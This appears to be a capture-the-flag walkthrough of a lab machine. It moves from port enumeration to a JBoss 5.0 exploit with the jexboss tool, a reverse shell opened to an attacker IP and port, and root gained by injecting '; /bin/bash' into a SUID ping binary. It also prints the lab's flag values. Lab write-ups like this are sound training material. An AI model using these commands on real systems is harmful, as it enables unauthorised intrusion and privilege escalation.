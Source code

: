 ```yaml
---
sticker: emoji//1f574-fe0f
---
```

# ENUMERATION
---



## OPEN PORTS
---

| PORT      | SERVICE                   |
| --------- | ------------------------- |
| 22/tcp    | SSH (OpenSSH 7.4)         |
| 80/tcp    | HTTP (Apache 2.4.6)       |
| 111/tcp   | RPCbind                   |
| 1098/tcp  | Java RMI                  |
| 1099/tcp  | Java Object Serialization |
| 3306/tcp  | MySQL/MariaDB             |
| 8008/tcp  | HTTP                      |
| 8083/tcp  | JBoss HTTP                |
| 40296/tcp | Unknown                   |
| 40982/tcp | Java RMI                  |
| 52306/tcp | Unknown                   |

We need to add `jacobtheboss.box` to `/etc/hosts`:

```
echo 'IP jacobtheboss.box' | sudo tee -a /etc/hosts
```


# RECONNAISSANCE
---


![](Pasted%20image%2020250408162521.png)

Web application located at port 80 contains an admin login page and some other functionalities, I tried `XSS` on the search bar but it didn't work, I also tried `LFI` but same happened, seems like this is not the intended path to take, now, if we remember correctly, we got another website located at port 8080:

![](Pasted%20image%2020250408162626.png)

We got something called `Jboss`, if we check the version:

```
whatweb http://jacobtheboss.box:8080

http://jacobtheboss.box:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTTPServer[Apache-Coyote/1.1], IP[10.10.230.73], JBoss[5.0][JBossWeb-2.1], Title[Welcome to JBoss&trade;], X-Powered-By[Servlet 2.5; JBoss-5.0/JBossWeb-2.1]
```

We are dealing with `JBoss 5.0`, if we search for an exploit, we can find this:

![](Pasted%20image%2020250408162907.png)

We got `RCE`, let's proceed to exploitation phase.



# EXPLOITATION
---

Due to us knowing that we got RCE, we can download the exploit and test:

```
Github: https://github.com/joaomatosf/jexboss.git
```

After downloading the script, we can use it with:

```
python jexboss.py -host http://jacobtheboss.box:8080
```


We can see this:

![](Pasted%20image%2020250408163415.png)

There we go, we got the shell, as it says in the script, to get a reverse shell, we can simply type the following:

```
jexremote=IP:PORT
```

If we check our listener:

![](Pasted%20image%2020250408163529.png)

We got the connection, let's start the privilege escalation phase.


# PRIVILEGE ESCALATION
---

First step is stabilizing our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](Pasted%20image%2020250408163630.png)

We can read user flag now:

```
[jacob@jacobtheboss /]$ cat /home/jacob/user.txt
f4d491f280de360cc49e26ca1587cbcc
```

If we check for SUID 4000 binaries, we find this:

```
[jacob@jacobtheboss /]$ find / -perm -4000 2>/dev/null
/usr/bin/pingsys
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
```

We got a few that may be interesting but after testing all of them, the only one that I could find some info was `pingsys`

![](Pasted%20image%2020250408164534.png)

Which means that in order to get root, we can do the following:

```
/usr/bin/pingsys '127.0.0.1; /bin/bash'
```

![](Pasted%20image%2020250408164651.png)

There we go, we got the root shell and can finally read `root.txt`:

```
[root@jacobtheboss /]# cat /root/root.txt
29a5641eaa0c01abe5749608c8232806
```

![](Pasted%20image%2020250408164733.png)


